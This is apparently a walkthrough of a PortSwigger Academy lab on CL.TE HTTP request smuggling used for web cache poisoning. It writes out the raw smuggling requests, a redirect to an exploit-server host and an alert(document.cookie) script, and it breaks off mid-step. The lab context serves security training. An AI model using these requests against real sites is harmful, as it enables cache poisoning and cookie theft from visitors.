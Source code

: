 #  HTTP - request smuggling to perform web cache poisoning

## 📌 Lab Details
- **Title**: HTTP request smuggling to perform web cache poisoning
- **Difficulty**: Expert
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/25d1dc76d4c49c69b12c03e8e115ea2c4ecce7048480403afd87ae4fa5196c6a?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-perform-web-cache-poisoning

## 🔍 Summary
This lab uses a **CL.TE request smuggling attack** (front-end only understands `Content-Length`, back-end accepts `Transfer-Encoding`) to poison the cache. By smuggling a request that changes the response for `/resources/js/tracking.js`, the attacker makes the cache serve a redirect to their exploit server. Victims loading the site then fetch the poisoned script, which runs attacker-controlled JavaScript (`alert(document.cookie)`), simulating a persistent XSS.

## 🛠 Steps to Solve
1. Open a blog post, click "Next post", and try smuggling the resulting request with a different Host header:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 129
   Transfer-Encoding: chunked

   0

   GET /post/next?postId=3 HTTP/1.1
   Host: anything
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10

   x=1
   ```
2. Observe that you can use this request to make the next request to the website get redirected to `/post` on a host of your choice.
3. Go to your exploit server, and create a text/javascript file at `/post` with the contents:
   ```sh
   alert(document.cookie)
   ```
4. Poison the server cache by first relaunching the previous attack using your exploit server's hostname as follows:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 193
   Transfer-Encoding: chunked

   0

   GET /post/next?postId=3 HTTP/1.1
   Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10

   x=1
   ```
5. Then fetch `/resources/js/tracking.js` by sending the following request: